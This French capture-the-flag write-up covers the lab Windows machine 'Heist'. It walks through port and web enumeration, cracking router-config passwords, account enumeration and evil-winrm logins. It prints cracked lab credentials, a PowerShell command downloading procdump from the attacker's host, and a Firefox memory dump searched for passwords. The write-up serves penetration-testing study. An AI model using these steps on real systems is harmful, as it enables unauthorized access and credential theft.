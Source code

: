 ![Pic1](../img/heist1.PNG?raw=true) </br>

# Introduction
Heist est une machine Windows dont l'adresse IP est 10.10.10.149.</br>
Compétences mises en oeuvre :
* Enumération des ports et services d'une machine distante.
* Enumération des ports et services d'un site web.
* Enumération des utilisateurs d'une machine local windows.
* Dump d'un processus qui contient un mot de passe.
</br>

# Enumération initiale
Nous commençons par l'énumération des ports et services avec nmap :
```bash
$ nmap -T4 -A 10.10.10.149
```
![Pic2](../img/heist2.PNG?raw=true) </br>
Plusieurs ports d'ouverts. Nous allons faire une énumération des fichiers et dossiers sur le port 80 avec dirsearch :
```bash
$ dirsearch -w wordlist -e "php,txt" -f -t 100 -x 400,404,500 -u http://10.10.10.149
```
![Pic3](../img/heist3.PNG?raw=true) </br>

# Obtenir un accès utilisateur

Sur la page d'accueil du site web, nous pouvons nous connecter en tant que Guest :</br>
![Pic4](../img/heist4.PNG?raw=true) </br>
Il y a une page d'aide, qui correspond à un dialogue entre l'utilisateur Hazard et le support. L'utilisateur Hazard a des problèmes avec son routeur cisco, il a laissé une copie de la configuration :</br>
![Pic5](../img/heist5.PNG?raw=true) </br>
![Pic6](../img/heist6.PNG?raw=true) </br>
Dans le dialogue, nous aprenons qu'un compte Hazard existe sur le serveur Windows, puis dans la config du routeur, nous pouvons voir 3 mots de passe que nous allons cracker :
![Pic7](../img/heist7.PNG?raw=true) </br>
![Pic8](../img/heist8.PNG?raw=true) </br>
![Pic9](../img/heist9.PNG?raw=true) </br>
Maintenant que nous avons des mots de passe et un nom d'utilisateur, nous pouvons essayer de nous connceter sur la machine avec ces derniers. Sauf qu'il n'y a pas de port SSH d'ouvert, nous allons refaire un scan pour voir si le 
port de Winrm est ouvert :</br>
![Pic10](../img/heist10.PNG?raw=true) </br>
Le port winrm est ouvert, nous pouvons donc tenter les différentes combinaisons d'identifiant et mot de passe que nous avons en se connectant avec evil-winrm. Sauf que l'on a une erreur d'authorisation, ce qui veux dire
que le compte Hazard ne peut pas se connecter en winrm. En revanche le couple Hazard:stealthlagent nous permet de nous connecter avec smbclient. / </br>
Le script lookupsid.py de impacket nous permet d'énumérer les comptes locaux :
```bash
$ python lookupsid.py ./hazard@10.10.10.149
```
![Pic11](../img/heist11.PNG?raw=true) </br>
Plusieurs nouveau idenfitiants intéréssants : Chase / Jason / support.</br>
En essayant les mots de passes sur chacun des idenfitiants, le couple Chase:Q4)sJu\Y8qz*A3?d fonctionne avec evil-winrm et nous permet d'obtenir le fichier user.txt.</br>
![Pic12](../img/heist12.PNG?raw=true) </br>

# Obtenir un accès administrateur

Nous faisons l'énumération avec winPEAS :
```bash
evil-winrm > upload /home/parrot/DesktopwinPEASx64.exe
evil-winrm > ./winPEASx64.exe all
```
Dans l'énumération, winPEAS nous dit qu'il y a du mot de passe d'enregistré dans Firefox :</br>
![Pic13](../img/heist13.PNG?raw=true) </br>
Nous allons voir si Firefox est actif et le dumper pour voir si il contient un mot de passe autre que le notre :
```bash
evil-winrm > powershell -c "Invoke-Webrequest -Uri http://10.10.14.6:8000/procdump.exe -outfile procdump.exe"
evil-winrm > Get-Process
evil-winrm > ./procdump -ma 708
evil-winrm > powershell -c 'Get-Content firefox_dump.dmp | Select-string -Pattern "assword" '
```
![Pic14](../img/heist14.PNG?raw=true) </br>
Nous pouvons alors nous connecter en administrator et récupérer le root.txt :</br>
![Pic15](../img/heist15.PNG?raw=true) </br>